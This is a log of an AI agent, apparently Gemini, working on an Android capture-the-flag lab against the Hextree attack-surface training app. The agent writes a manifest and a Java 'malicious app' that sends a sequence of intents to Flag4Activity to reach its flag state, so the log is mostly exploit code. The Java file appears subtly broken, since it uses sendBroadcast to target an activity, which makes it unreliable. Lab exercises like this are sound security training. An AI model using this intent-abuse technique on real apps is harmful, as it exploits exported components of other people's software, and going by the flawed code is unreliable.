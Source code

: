 The goal is to reach the `GET_FLAG` state and then send *any* intent to trigger the `success()` method.

Here's my plan to create the malicious app:

1.  Create an `AndroidManifest.xml` with the necessary permissions and an exported activity.
2.  Create a Java file with the code to send the following sequence of intents:
    *   `PREPARE_ACTION`
    *   `BUILD_ACTION`
    *   `GET_FLAG_ACTION`
    *   *any* intent

Now, let's start creating the malicious app. First, the `AndroidManifest.xml`.


Function Call: id=None args={'content': '<?xml version="1.0" encoding="utf-8"?>\n<manifest xmlns:android="http://schemas.android.com/apk/res/android"\n    package="com.example.maliciousapp">\n\n    <application\n        android:allowBackup="true"\n        android:icon="@mipmap/ic_launcher"\n        android:label="@string/app_name"\n        android:roundIcon="@mipmap/ic_launcher_round"\n        android:supportsRtl="true"\n        android:theme="@style/Theme.MaliciousApp">\n        <activity\n            android:name=".MainActivity"\n            android:exported="true">\n            <intent-filter>\n                <action android:name="android.intent.action.MAIN" />\n\n                <category android:name="android.intent.category.LAUNCHER" />\n            </intent-filter>\n        </activity>\n    </application>\n\n</manifest>', 'file_path': 'Android-2/AndroidManifest_PoC.xml'} name='write_to_file'
----------
Role: tool
Function Call: None
----------

--- Raw Response from Model ---
GenerateContentResponse(candidates=[Candidate(content=Content(parts=[Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=None, function_response=None, text="OK, the `AndroidManifest.xml` is written. Now, let's create the Java file with the code to send the intents.\n\n"), Part(video_metadata=None, thought=None, inline_data=None, file_data=None, thought_signature=None, code_execution_result=None, executable_code=None, function_call=FunctionCall(id=None, args={'content': 'package com.example.maliciousapp;\n\nimport android.app.Activity;\nimport android.content.ComponentName;\nimport android.content.Context;\nimport android.content.Intent;\nimport android.os.Bundle;\nimport android.util.Log;\n\npublic class MainActivity extends Activity {\n\n    private static final String TARGET_PACKAGE = "io.hextree.attacksurface";\n    private static final String TARGET_ACTIVITY = "io.hextree.attacksurface.activities.Flag4Activity";\n\n    private static final String PREPARE_ACTION = "PREPARE_ACTION";\n    private static final String BUILD_ACTION = "BUILD_ACTION";\n    private static final String GET_FLAG_ACTION = "GET_FLAG_ACTION";\n\n    @Override\n    protected void onCreate(Bundle savedInstanceState) {\n        super.onCreate(savedInstanceState);\n\n        sendIntent(PREPARE_ACTION);\n        sendIntent(BUILD_ACTION);\n        sendIntent(GET_FLAG_ACTION);\n        sendIntent("TRIGGER_FLAG"); // Any intent after GET_FLAG\n\n        finish(); // Close the malicious activity\n    }\n\n    private void sendIntent(String action) {\n        Intent intent = new Intent();\n        intent.setComponent(new ComponentName(TARGET_PACKAGE, TARGET_ACTIVITY));\n        intent.setAction(action);\n        sendBroadcast(intent);\n        Log.d("MaliciousApp", "Sent intent: " + action);\n    }\n}', 'file_path': 'Android-2/MaliciousFlag4PoC.java'}, name='write_to_file'), function_response=None, text=None)], role='model'), citation_metadata=None, finish_message=None, token_count=None, finish_reason=<FinishReason.STOP: 'STOP'>, url_context_metadata=None, avg_logprobs=-0.029274914715741132, grounding_metadata=None, index=None, logprobs_result=None, safety_ratings=None)], create_time=None, response_id=None, model_version='gemini-2.0-flash', prompt_feedback=None, usage_metadata=GenerateContentResponseUsageMetadata(cache_tokens_details=None, cached_content_token_count=None, candidates_token_count=370, candidates_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=370)], prompt_token_count=16910, prompt_tokens_details=[ModalityTokenCount(modality=<MediaModality.TEXT: 'TEXT'>, token_count=16910)], thoughts_token_count=None, tool_use_prompt_token_count=None, tool_use_prompt_tokens_details=None, total_token_count=17280, traffic_type=None), automatic_function_calling_history=[], parsed=None)
